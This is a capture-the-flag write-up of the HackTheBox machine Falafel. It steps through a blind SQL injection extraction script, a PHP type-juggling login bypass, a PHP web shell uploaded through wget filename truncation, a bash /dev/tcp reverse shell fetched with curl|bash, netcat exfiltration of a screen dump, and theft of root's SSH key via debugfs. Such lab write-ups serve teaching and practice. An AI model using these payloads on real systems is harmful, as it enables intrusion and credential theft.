
Resolução da máquina Falafel
Máquina HARD (hackthebox.com)
by JavaliMZ - 09/09/2021
Enumeração
Nmap
For enumeration, after verifying the connection, I always do a nmap scan like this:


We have only ssh and 1 http port. The version of ssh have not big vulnerabilities, so the target is the port 80
WebSite

This site give some information. We have a email (IT@falafel.htb) and with this email, we can suspect potential user (IT) and virtual hosting (falafel.htb). let add this host on /etc/hosts
echo -e "10.10.10.73\tfalafel.htb" >> /etc/hosts
Fuzzing the website
The first fuzzing i do is for the website
ffuf -c -u http://10.10.10.73/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200 -r
#> assets [Status: 403, Size: 293, Words: 22, Lines: 12]
#> css [Status: 403, Size: 290, Words: 22, Lines: 12]
#> js [Status: 403, Size: 289, Words: 22, Lines: 12]
#> uploads [Status: 403, Size: 294, Words: 22, Lines: 12]
#> images [Status: 403, Size: 293, Words: 22, Lines: 12]
#> [Status: 200, Size: 7203, Words: 774, Lines: 110]
#> server-status [Status: 403, Size: 299, Words: 22, Lines: 12]
We can see and uploads directory. But nothing more... keep searching...
The second scan i want to do is for discovery possibles files! We have the information that is an apache with "whatweb http://falafel.htb" and the login button redirect us to a login.php. We can try to find files with php extentions. But we can add txt too
ffuf -c -u http://10.10.10.73/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200 -r -e .txt,.php
#> profile.php [Status: 200, Size: 7063, Words: 878, Lines: 103]
#> uploads [Status: 403, Size: 294, Words: 22, Lines: 12]
#> header.php [Status: 200, Size: 288, Words: 10, Lines: 18]
#> footer.php [Status: 200, Size: 0, Words: 1, Lines: 1]
#> upload.php [Status: 200, Size: 7063, Words: 878, Lines: 103]
#> css [Status: 403, Size: 290, Words: 22, Lines: 12]
#> style.php [Status: 200, Size: 6174, Words: 690, Lines: 69]
#> index.php [Status: 200, Size: 7203, Words: 774, Lines: 110]
#> js [Status: 403, Size: 289, Words: 22, Lines: 12]
#> login.php [Status: 200, Size: 7063, Words: 878, Lines: 103]
#> logout.php [Status: 200, Size: 7063, Words: 878, Lines: 103]
#> robots.txt [Status: 200, Size: 30, Words: 3, Lines: 2]
#> assets [Status: 403, Size: 293, Words: 22, Lines: 12]
#> images [Status: 403, Size: 293, Words: 22, Lines: 12]
#> cyberlaw.txt [Status: 200, Size: 804, Words: 106, Lines: 18]
#> connection.php [Status: 200, Size: 0, Words: 1, Lines: 1]
#> .php [Status: 403, Size: 290, Words: 22, Lines: 12]
#> [Status: 200, Size: 7203, Words: 774, Lines: 110]
#> server-status [Status: 403, Size: 299, Words: 22, Lines: 12]
Whats is cyberlaw.txt?!

That give us a lot of potential information...
- Users devs and lawyers with "To: lawyers@falafel.htb, devs@falafel.htb"
- User "chris" and confirme "admin" user
SQLi
After opening http://falafel.htb/ from the browser, we have a button login. if with put "admin" "admin" for user and password, we get an error "Wrong identification : admin". Another random username give us "Try again..". We can assume that the user "admin" existe.

If we put user "' or 1=1 -- -" and password "' or 1=1 -- -", we get the same error "Wrong identification : admin". Maybe it is vulnerable to SQLi.
If we put user "admin' and sleep(5)" and random password, we got this error "Hacking Attempt Detected!". After some try, we know what is happening. The website blocks keywords. If username or password contain the words "sleep" or "union", we got the hacking error.
We can supose de username and password field exist, and can try this:
admin' and substring(username,1,1)='a'-- -
That code give us the same result (Wrong identification : admin) but if we change de 'a', we got (Try again..)
admin' and substring(username,2,1)='d'-- -
For de second char, if we put a 'd', we got (Wrong identification : admin) and we got (Try again..) if we put another char. if we change "substring(username,1,1)" for "substring(password,1,1)", we can enumerate all chars of password field with the same method. So i made a python script for discover the hash password of users "admin" and "chris" (the only 2 know valid username):
import requests
import re
from pwn import log
def sendRequest(code):
url = "http://falafel.htb/login.php"
header = {"Cookie": "PHPSESSID=0tpuo9bnh5jo18ibamo44q3ej0"}
data = {"username": code, "password": "password"}
res = requests.post(url, headers=header, data=data).text
res = res.replace("\n", " ").replace("\t", " ")
regexPattern = r"<br>(.*?)</br>"
res = re.findall(regexPattern, res)[0].strip()
return res
def getPassword(username):
l1 = log.progress(username)
password = ""
chars = "0123456789abcdefghijklmnopqrstuvwxyz"
continueSearching = True
for position in range(1, 100):
if continueSearching:
for char in chars:
code = f"{username}' and substring(password,{position},1)='{char}'-- -"
if "Wrong identification" in sendRequest(code):
password += char
l1.status(password)
break
if char == "z":
continueSearching = False
def main():
getPassword("chris")
getPassword("admin")
main()
The script give us 2 hashes:
- chris: d4ee02a22fc872e36d9e3751ba72ddc8
- admin: 0e462096931906507119562988736854
with online tool called crackstation.net, we got 1 password:

chris:juggling

The Chris perfile have a tip. TYPE-JUGGLING
The admin hash is 0e462096931906507119562988736854. in php, the string "0e462096931906507119562988736854" == 0 (or "0" or every md5 hash who as "0e{numbers...}") cause php interprete that 0e{numbers...} like 0 * (10 ^ {numbers...}) and, if the comparison is done with the loose comparisons "==" instead of the strict comparisons "===", we can bypass the password with every strings that the hash is 0e{numbers...}. On the internet, we can found a lot of md5 hashes who result in 0e{numbers...}. I will try login with "NWWKITQ"
admin:NWWKITQ (Not the real password, just juggling bypass)
I am in!

RCE
At this point, we can try to upload a file. The box suggests a png file.
sudo python3 -m http.server 80
We can update an image with png extention. but the response is very unusual. That's look the website use "wget" binary for download the file. I tried change extension, MIME type, concate a command (because the server use wget) but nothing work... The way to upload is very tricky! In linux, the maximum size of a name file is 255 chars. And wget as a function that cute the name if is very long!!
# Copy the real image with 251 pattern char and last 4 chars as .png (255 chars)
cp shell.png $(msf-pattern_create -l 251).png

The Output say literally the last 4 chars of the new name file is h7Ah
msf-pattern_offset -q h7Ah
#> [*] Exact match at offset 232
Create a new file named shell.php:
<?php
echo "\nURL Shell... url?cmd=<command>\n\n";
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
We know:
- The file need to end with ".png" extension
- The site will interprete php code
- the wget of the server cut name too long and the exact offset was 232 So, we need a file with 228 char + .php + .png (for delete .png too long, and save the file pas .php)
cp shell.php $(msf-pattern_create -l 232).php.png
In upload page, get the file and save the output...
http://10.10.14.17/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png

Note the path of the file and go to the webshell
http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=whoami

We Have Remote Code Execution!
Reverse Shell
Create a file names rev.html with the follow content:
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/443 0>&1
Then, share a http server and with RCE on website, curl him, and execute him
sudo python3 -m http.server 80 # On one terminal
sudo nc -lvnp 443 # On another one
http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=curl%20http://10.10.14.17/rev.html|bash
PrivEsc
We found credentials on /var/www/html/connection.php
(remote) www-data@falafel:/var/www/html$ cat connection.php
<?php
define('DB_SERVER', 'localhost:3306');
define('DB_USERNAME', 'moshe');
define('DB_PASSWORD', 'falafelIsReallyTasty');
define('DB_DATABASE', 'falafel');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
// Check connection
if (mysqli_connect_errno())
{
echo "Failed to connect to MySQL: " . mysqli_connect_error();
}
?>
This credentials is for mysql. but if we try to logon as moshe:falafelIsReallyTasty, we will get in.
Group video
This machine's is a ctf lool. But is interessante the way to escalate privilege. This machine are no more vulnerability... The password is on the screen of the machine. So, how we can screenshot this?
with "w" command we can see the user yossi is logged physically on the machine
w
#> 22:31:32 up 10:23, 2 users, load average: 0.00, 0.00, 0.00
#> USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
#> yossi tty1 12:08 10:22m 0.06s 0.06s -bash
#> moshe pts/1 10.10.14.17 22:06 0.00s 0.06s 0.00s w
The video group has access to view the screen output. Basically you can observe the the screens. In order to do that you need to grab the current image on the screen in raw data and get the resolution that the screen is using. The screen data can be saved in /dev/fb0 and you could find the resolution of this screen on /sys/class/graphics/fb0/virtual_size
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
#> 1176,885
Download the screen.raw into kali machine
nc 10.10.14.17 443 < /tmp/screen.raw # Target Machine
nc -lvnp 443 > screen.raw # kali Machine
open with GIMP in mode RAW



We can now ssh into target machine with yossi user
Group disk
for group in $(groups); do echo -e "\n\n\n[*] Archive with group $group permition:\n"; find / -group $group 2>/dev/null; done
When we run this, we see yossi have permition on /dev/sda1 and more...
fdisk -l
#> Disk /dev/sda: 8 GiB, 8589934592 bytes, 16777216 sectors
#> Units: sectors of 1 * 512 = 512 bytes
#> Sector size (logical/physical): 512 bytes / 512 bytes
#> I/O size (minimum/optimal): 512 bytes / 512 bytes
#> Disklabel type: dos
#> Disk identifier: 0x01590ad6
#>
#> Device Boot Start End Sectors Size Id Type
#> /dev/sda1 * 2048 14680063 14678016 7G 83 Linux
#> /dev/sda2 14682110 16775167 2093058 1022M 5 Extended
#> /dev/sda5 14682112 16775167 2093056 1022M 82 Linux swap / Solaris
ll /dev/sda1
#> brw-rw---- 1 root disk 8, 1 Sep 9 12:08 /dev/sda1
Group disk can read and write on /dev/sda1. But how?
debugfs
debugfs - ext2/ext3/ext4 file system debugger. Display or manipulate a disk partition table. We can see easily the flag, but we want to be root!
debugfs /dev/sda1
debugfs: cd /root/.ssh
debugfs: cat id_rsa # copy the content...
# Exit the debugfs
cd /tmp
nano id_rsa # paste the content...
chmod 600 id_rsa
ssh -i id_rsa root@localhost
cat /home/moshe/user.txt
#> c866575ed5999e1a878b1494fcb1f9d3
cat /root/root.txt
#> 23b79200448c62ffd6f8f2091c001fa1